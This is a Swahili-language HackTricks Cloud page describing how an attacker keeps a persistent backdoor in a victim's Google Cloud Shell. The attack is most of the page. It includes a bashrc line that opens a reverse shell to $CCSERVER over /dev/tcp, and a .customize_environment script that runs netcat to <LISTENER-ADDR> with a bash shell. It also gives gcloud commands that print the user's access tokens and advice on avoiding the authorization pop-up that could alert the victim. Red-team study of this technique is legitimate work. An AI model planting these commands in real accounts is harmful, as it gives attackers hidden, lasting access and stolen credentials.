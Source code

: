 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa maelezo zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwa kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kufikia Cloud Shell ya Google kutoka **web console** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa washambuliaji:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa mfano wa Cloud Shell ulio na uthibitisho kamili (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Mfano huo uta **hifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayoendelea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli za mfano huo.

Hii inamaanisha kwamba mshambuliaji anaweza kuweka backdoor katika saraka ya nyumbani ya mtumiaji na kadri mtumiaji anavyounganisha kwenye GC Shell kila siku 120 angalau, backdoor itadumu na mshambuliaji atapata shell kila wakati inapoendeshwa kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwa ipo, itakuwa **inatekelezwa kila wakati** mtumiaji anapofikia **cloud shell** (kama katika mbinu ya awali). Ingiza tu backdoor ya awali au moja kama ifuatayo ili kudumisha uvumilivu kadri mtumiaji anavyotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinapofanywa**, dirisha la ruhusa linaonekana kwenye kivinjari cha mtumiaji. Dirisha hili lazima likubaliwe kabla ya amri kuweza kuendesha. Ikiwa dirisha la pop-up lisilotarajiwa linaonekana, linaweza kuleta wasiwasi na huenda likaharibu njia ya kudumu inayotumika.
{% endhint %}

Hii ni pop-up kutoka kwa kutekeleza `gcloud projects list` kutoka kwa cloud shell (kama mshambuliaji) iliyoangaliwa katika kikao cha kivinjari cha mtumiaji:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji amekuwa akitumia cloudshell kwa shughuli, pop-up haitatokea na unaweza **kusanya tokens za mtumiaji kwa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi muunganisho wa SSH unavyoundwa

Kimsingi, hizi API calls 3 zinatumika:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa ndani)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanze mfano)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakueleza ip ya google cloud shell)

Lakini unaweza kupata taarifa zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
